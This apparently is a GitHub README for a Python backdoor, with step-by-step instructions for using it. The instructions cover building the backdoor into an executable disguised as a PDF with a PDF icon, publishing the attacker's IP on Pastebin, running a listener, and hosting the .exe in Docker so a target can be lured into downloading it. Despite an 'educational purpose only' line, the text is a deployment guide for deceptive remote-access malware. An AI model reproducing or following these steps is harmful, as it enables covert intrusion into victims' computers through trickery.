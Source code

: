 #⚠️ | This Backdoor dosen't bypass windows defender and other AV's

For educational Purpose only
Dosen't matter if target dosen't have pyhton installed

You should have these requirements :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. Must have docker installed if using it

## Steps to use this backdoor :
1. clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   ```
   cd to that directory
2. find your pyinstaller path and run :
    ```powershell
    C:\Users\username\Appdata\wherever\your\pyinstaller\is\there\pyintstaller.exe --add-data=sample.pdf:.  -—onefile -—noconsole --icon pdf.ico backdoor.py
    ```
   The created backdoor must be in your "dist" folder in that directory
   
3. Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
 when target clicks backdoor, you get the connection
## 🐳 | Docker :
for a proper web server (lacking in windows) to host the backdoor.exe file use docker ( I know using Python webserver is more simpler but I am using something different )
steps:
1. cd to Docker directory
then run :
   ```
   docker build -t Dcoker .
   ```
2. Run the container
    ```
    docker run Dcoker
    ```
and then make the target go to <your_IP>:8080 in broser to download the ready-made .exe
